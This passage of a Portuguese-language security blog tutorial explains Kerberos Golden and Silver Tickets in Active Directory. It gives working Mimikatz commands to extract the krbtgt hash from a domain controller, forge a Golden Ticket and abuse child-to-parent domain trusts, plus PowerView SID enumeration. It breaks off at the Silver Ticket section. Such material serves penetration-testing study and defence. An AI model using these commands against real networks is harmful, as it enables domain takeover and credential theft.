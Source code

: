 ```yaml
---
title: "Active Directory - Explorando Trusts - Tickets"
tags: [Windows, Active Directory]
categories: ActiveDirectory
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/golden.png)

# Tickets

Agora vamos abordar outro ponto a exploração. Vamos partir pra criação dos famosos Golden e Silver tickets. A foto de capa do post é análoga ao Willy Wonka, com um Golden Ticket da acessos ao personagem, do mesmo modo em um AD, um Golden Ticket nos da acesso que teoricamente não deveriamos ter, acesso à máquinas, arquivos e o mais importante *Domain Controllers*!

## Golden Ticket

Um Golden Ticket é um token de autenticação do Kerberos para o KRBTGT, que pode ser usado junto com o pass-the-hash para logar em qualquer conta, habilitando o atacante a se mover por toda a rede.

## Silver Ticket

Mas que diabos então é um Silver Ticket?

Silver tickets são tipos de Golden Tickets, isso mesmo, que são feito para se autenticar em serviços específicos. Esses tickets podem ser forjados a partir de senhas crackeadas de usuários, que são usadas para gerar os tickets falsos.

Os Silver Tickets são mais difíceis de detectar, tendo em vista que não há comunicação entre o serviço e o DC, todo log ficará no computador em que foi comprometido, dificultando e muito a detecção!

## Como criar Golden Tickets?

Primeiro o atacante deve ter tomado controle de um DC, pra sendo assim poder extrair o hash do KRBTGT

Uma vez dentro da máquina, realizamos a extração do hash do krbtgt

`Invoke-Mimikatz -Command '"privilege::debug" "lsadump::lsa /inject /name:krbtgt"'`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/golden1.png)

Após extraido podemos utilizar ele na nossa host mesmo para a criação do golden ticket

Aqui no caso eu criei um usuário que não existe, só pra comprovar que o ataque realmente funciona

`kerberos::golden /domain:xxx.local /sid:S-1-5-21-3965405831... /rc4:c6d349.... /user:newAdmin /id:500 /ptt`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/golden2.png)

Show... Esse foi um dos exemplos, outro que vou citar agora vai ser o foco desse post, que é que podemos explorar os trusts entre Domains com o Golden Ticket, whaat? Isso mesmo, acredita!

## Explorando Trust Domains

A ideia aqui é acessar servidores que não deveriamos ter acesso de modo algum, contudo entre os Forests sempre (ou quase sempre) há relação de confiança, os chamados Trusts, e vamos lá, se um forest confia no outro, ele vai dar acesso, se nós conseguimos nos passar por um forest, o outro vai aceitar a conexão... simples, não?

Para conseguir esses SIDs para podermos explorar a relação de confiança, iremos utilizar o `PowerView_dev.ps1` com os comandos listados:

```
FILHO - Get-DomainSID
PAI - Get-DomainSID -Domain funcorp.local
```

O que é pai e filho? Pai seria por exemplo o `abc.def.local`, o filho seria o `def.local`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/golden3.png)

`Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:DOMINIO_FILHO /sid:SID DO DOMINIO FILHO /krbtgt:HASH DO KRBTGT /sids:SID DO DOMINIO PAI /ptt"'`

Executamos o ataque!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/golden4.png)

Pronto! Assim exploramos também o Trust Domain com o Golden Ticket, ou seja, se conseguimos o hash do KRBTGT, acabou!

Agora vamos partir pros ataques de Silver Ticket

## Como criar Silver Tickets?